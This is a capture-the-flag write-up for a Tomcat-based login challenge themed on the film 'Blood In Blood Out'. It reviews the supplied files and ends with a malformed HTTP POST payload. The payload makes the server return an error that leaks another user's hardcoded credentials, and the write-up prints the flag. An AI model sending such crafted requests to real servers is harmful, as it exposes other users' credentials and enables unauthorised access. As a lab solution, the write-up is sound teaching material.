 # TASK INFO
Task Author: LOLASL

Writeup author: Raresh1t (SIFI)

**Task text:** 

*Hey carnal, sometimes you gotta slide in a little extra something for the homies. Theres a placa looking every minute so keep it tight, ese.*

The task theme is based on the movie "Blood In Blood Out" released in 1993, focusing on the Vatos Locos gang in Los Angeles in 1970s California.

# File analysis
**Attached file:**
A gzip archive is attached with the task. (bloodinbloodout.tar.gz)
Unzipping this archive extracts a folder named "source" which contains 5 files and 1 other directory.

**Dockerfile:** Contains the docker instancing instructions. Exposes port 8443. Finishes by running run.sh

**run.sh:** Simple shell file which starts the Catalina container, then runs victim.sh.

**victim.sh:** A shell script which continually performs an admin login towards localhost:8443/welcome.jsp every minute. (*This script is referenced from the second task
sentence: "a placa looking every minute"*)
This file contains a variable COOKIES, which holds the string: "JSESSIONID=EFC6BC3B39449C34A07AAEED1E9BE69A"

The main part of the script is a function "simulate_admin_login()" containing an always-true while loop which performs a curl request to the specified endpoint, then sleeps for 60 seconds and then performs another, indefinitely.
The file we were given contains placeholders for association, username, and password which are likely key parts needed to obtain the flag.

**server.xml**: This is the main server configuration for the Tomcat server, and contains some defined instructions. The most important detail of this file is that a Connector to port 8443 is defined, along with a keystore file with the alias "tomcat" with the key to the keystore file defined as "yoyoma"
```
<Connector port="8443" protocol="HTTP/1.1"
           connectionTimeout="20000"
           scheme="https"
           secure="true"
           SSLEnabled="true"
           keyAlias="tomcat"
           keystoreFile="conf/ssl/selfsigned.jks"
           keystorePass="yoyoma"
           clientAuth="false" />
```
Another interesting piece is a Valve defined as a log collector which stores localhost access logs in the directory "logs" as the file "localhost_access_logs.txt".
```
        <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```
**selfsigned.jks**: This is the java keystore file, which we know from the server.xml configuration is protected with the string "yoyoma". This key can be used to decrypt TLS-encrypted traffic for the Connector port 8443 as it was used to configure the Connector port in the server configuration.

**Directory ROOT:** This directory contains the two files which are present on the webpage: "index.jsp" and "welcome.jsp". Index is the front page with the login screen, and welcome is the JavaServer page which is called from index.jsp when a login action is POSTed.

**index.jsp**: Nothing special here. Just the login page containing the form which requires all 3 parameters, and calls on welcome.jsp for POST requests.

**welcome.jsp**: The page which handles POST requests. It stores the provided username and password parameters from the request as strings and does a simple if-statement with a logical AND operator to check if both values are equal to some hard-coded value. If they are, you get the flag. If not, you get "Hey Cinderella, go find yourself a fella!" which is a known quote from the movie the task is based on.
```
    String username = request.getParameter("username");
    String password = request.getParameter("password");

    if("placeholderuser".equals(username) && "placeholderpassword".equals(password)) {
        out.println("<h3>EPT{this_is_a_placeholder_flag}</h3>");
    } else {
        out.println("<h3>Hey Cinderella, go find yourself a fella!</h3>");
    }
    %>

```

With all this in mind we need to find out where we can get these correct values to login and get the flag.
# Web Analysis
This task is simply a web-exploit challenge, however there are a few pitfalls which are easy to get lost in.

The task is running on an ondemand service (a VM) which has an Apache Tomcat server running with a Catalina container. The server presents you with a simple login screen for "San Quentin". San Quentin is a state prison in California which matches the theme of the task.

The login page has 3 input parameters: one association, one username, and one password.
The association parameter is a dropdown menu with 4 options, which is a required parameter: Los Angeles Police Department, Black Guerilla Army (BGA), The Aryan Vanguard, and La Onda. These are all significant groups which are tied to the movie.
Username and password are simply text input fields, but as identified in the file analysis they are also required parameters.

# Pitfall 1
An attempted brute force is not recommended for this task. You could be lucky as the correct username and password are related to the movie, however it is not an intended solution. 
# Pitfall 2
The biggest pitfall in this task is the idea that you need to attack victim.sh. Port 8443 is not open externally. (Checked with an Nmap scan and attempted connections.)

You can not intercept or capture the traffic this script is generating as it is only sending traffic locally. This also removes the entire need for the keystore file. You could use it to decrypt traffic, but you can't intercept the traffic which you would need to decrypt.

(Atleast as far as I know.)

# Solution
This task was simply solved with a sensitive information leak through an error response when the server handles a request.
```
"POST /welcome.jsp HTTP/1.1
Host: 10.128.2.173
Cookie: JSESSIONID=D250017936541CC7182F4309877D54D4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://10.128.2.173
Referer: https://10.128.2.173/index.jsp
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

association=Black"&username"&username=ls&password=%26password"
```
**association=Black"&username"&username=ls&password=%26password**

The response from the server indicates a successful request, however the server has received an error and leaked an error which has occurred when attempting to process a bad request.
```
HTTP/1.1 200
Content-Type: text/html;charset=UTF-8
Content-Length: 1224
Date: Sat, 02 Nov 2024 17:24:59 GMT
Keep-Alive: timeout=20
Connection: keep-alive
<!DOCTYPE html> <html> <head> <meta charset="UTF-8"> <title>Welcome to San Quentin</title> <style> body { background: url('https://dannytrejo.com/wp-content/uploads/2016/06/blood-in-blood-out-danny-trejo-crew.jpg') no-repeat center center fixed; background-size: cover; color: #fff; font-family: 'Arial', sans-serif; height: 100vh; display: flex; justify-content: center; align-items: center; } .welcome-container { text-align: center; background: rgba(0, 0, 0, 0.7); padding: 30px; border-radius: 10px; width: 350px; box-shadow: 0 4px 10px rgba(0, 0, 0, 0.5); } .welcome-container h1 { font-size: 24px; color: #ff4500; text-transform: uppercase; letter-spacing: 2px; } .welcome-container img { width: 100px; margin-bottom: 20px; } </style> </head>
<body> <div class="welcome-container"> <h3>Hey Cinderella, go find yourself a fella!</h3> </div> </body>
HTTP/1.1 400
Content-Type: text/html;charset=utf-8
Content-Language: en
Transfer-Encoding: chunked
Date: Sat, 02 Nov 2024 17:24:59 GMT
Connection: close 2000
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head>
<body><h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato19690x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00"
```

Providing a malformed input causes the server to leak the hardcoded credentials in the request handling:
```
<h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b>
Invalid character found in method name
[ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato1969
```
**username=paco&amp;password=carnalvato1969**

Logging in with **username = paco** and **password = carnalvato1969** reveals the flag:

**EPT{vatos_locos_4_ever_ese!_<3}**
